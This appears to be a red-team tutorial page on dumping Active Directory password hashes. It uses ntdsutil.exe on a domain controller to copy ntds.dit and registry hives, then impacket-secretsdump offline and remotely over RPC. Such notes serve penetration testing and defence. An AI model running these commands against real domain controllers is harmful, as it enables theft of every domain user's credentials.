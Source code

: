 ```yaml
---
description: Dumping NTDS.dit with Active Directory users hashes
---
```


# Dumping Domain Controller Hashes Locally and Remotely

## No Credentials

If you have no credentials, but you have access to the DC, it's possible to dump the ntds.dit using a lolbin ntdsutil.exe:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endtab %}
{% endtabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes offline with impacket:

{% tabs %}
{% tab title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## With Credentials

If you have credentials for an account that can log on to the DC, it's possible to dump hashes from NTDS.dit remotely via RPC protocol with impacket:

```text
impacket-secretsdump -just-dc-ntlm offense/administrator@10.0.0.6
```

![](../../.gitbook/assets/image%20%2884%29.png)

## References

{% embed url="https://adsecurity.org/?p=2362" %}

{% embed url="https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/" %}



